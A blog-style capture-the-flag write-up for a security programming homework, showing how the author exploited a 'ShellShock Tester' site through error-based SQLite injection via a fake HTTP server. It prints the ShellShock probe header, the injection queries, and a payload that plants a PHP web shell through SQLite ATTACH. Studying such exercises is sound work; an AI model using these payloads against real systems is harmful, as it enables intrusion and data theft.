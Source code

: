 ```yaml
---
layout: post
title: 'ShellShock Writeup'
category: memo
slug: shellshock-writeup
---
```

Security Programming Homework 4-1

## Problem Description

The [ShellShock Tester][1] is the website that have some vulnerabilites.
According to the text on the website, the vulnerabilities might not be
ShellShock :(

At the bottom of the website it says "The response will be collected into
database". Maybe SQL injection will work! After trying various types of SQL
injection in that text input field I realized that I'm in the wrong way...

## Look Deeper

The ShellShock Tester must send something to the target website to test if it
has bash vulnerability. Using `nc` to see what are sent from the ShellShock
Tester.

```bash
nc -l -p 5566
```

And it turns out to be the following result:

```text
GET / HTTP/1.1
User-Agent: () { :;}; echo 'ShellShockTester_atdog';
Host: 140.113.235.153:5566
Accept: */*
```

Ah-ha! The string `{ :;}; echo 'ShellShockTester_atdog';` is a typical method to
test if the bash which is currently using is vulnerable to CVE-2014-6271. A
system which is vulnerable will echo the string "ShellShockTester_atdog".
Similarly, the target website which runs CGI program will return the string if
it is vulnerable. So why don't we build a fake HTTP server to fool the
ShellShock Tester?

Building a simple HTTP server using python module [Flask][2]. It returns the
string when the ShellShock Tester queried for the index page. It seems that the
ShellShock Tester stores the response returned from the target website into its
database using `insert`. At the time the type of the database is still unknown.

So I append a single quote right after the string, and the result showed on the
ShellShock Tester is:

```text
DATABASE Msg: unrecognized token: "'ShellShockTester_atdog'')"

Response: ShellShockTester_atdog'
```

Google for the error message, it says that it seems to be SQLite 3. On the other
hand, all error messages will showed means that we can use error-based SQL
injection.

## Error-based SQL Injection

Most of the error-based SQL injection methods are based on MySQL. But this time,
it is SQLite... Fortunately, I found a forum post which talks about SQLite
error-based injection, how lucky!

First, create a virtual table:

```sql
CREATE VIRTUAL TABLE v1 USING fts3(x);
```

To know which table and column contain the flag:

```sql
SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT sql FROM sqlite_master);
```

And finally, the flag showed up:

```sql
SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT flag FROM oyoyoyoy_____1111flag);
```

The queries listed above should be embedded into the sophisticatedly crafted
string. Using Python's format string will look like this:

```python
trick = 'ShellShockTester_atdog\'); {} --'
inj = 'create virtual table v1 using fts3(x);'
resp = trick.format(inj)
```

## Inject a Backdoor

Another method to pwn the ShellShock Tester is to place a backdoor in the
directory of the website.

```python
trick = 'ShellShockTester_atdog\'); {} --'
inj = 'ATTACH \'./lol.php\' AS lol; CREATE TABLE lol.pwn (dataz TEXT); INSERT INTO lol.pwn (dataz) VALUES (\'<pre><?php system($_GET["cmd"]); ?></pre>\');'
resp = trick.format(inj)
```

This will build a backdoor called `lol.php`. So anyone can visit that page along
with a "GET" argument `cmd`. The value of `cmd` could be any shell command. The
reason is that `ATTACH` command will attach a SQLite database. If the database
does not exist, it create the database which is a PHP file. The file's content
contains a short piece of PHP code showed above.

Simply visit the page <http://tor.atdog.tw:8888/lol.php?cmd=ls>, it will list
every file in the current directory. And there is the SQLite database! Download
it and grab the flag!

## Flag

The flag is:

```text
SecProg{SQL1teInject1on_yoooo}
```

## References

-  [Select Queries][3]
-  [SQLite 3 error-based injection][4]
-  [SQLite3 Injection Cheat Sheet][5]
-  [SQLite Injection \| Hits from the bits][6]

[1]: http://tor.atdog.tw:8888/index.php
[2]: http://flask.pocoo.org
[3]: http://sqlite.awardspace.info/syntax/sqlitepg03.htm
[4]: https://rdot.org/forum/showthread.php?p=26419
[5]: http://atta.cked.me/home/sqlite3injectioncheatsheet
[6]: http://gwae.trollab.org/sqlite-injection.html
